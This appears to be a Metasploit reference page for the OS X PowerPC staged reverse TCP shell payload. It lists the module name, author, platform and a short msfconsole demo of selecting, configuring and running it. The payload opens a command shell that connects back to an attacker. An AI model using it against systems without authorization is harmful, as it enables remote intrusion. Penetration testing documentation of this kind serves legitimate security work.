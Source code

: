 ## OS X Command Shell, Reverse TCP Stager

Spawn a command shell (staged). Connect back to the attacker


## Module Name
payload/osx/ppc/shell/reverse_tcp

## Authors
* hdm





## Platforms
* osx

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/osx/ppc/shell/reverse_tcp
msf payload(reverse_tcp) > show targets
   ... a list of targets ...
msf payload(reverse_tcp) > set TARGET <target-id>
msf payload(reverse_tcp) > show options
   ... show and set options ...
msf payload(reverse_tcp) > run
```
    
    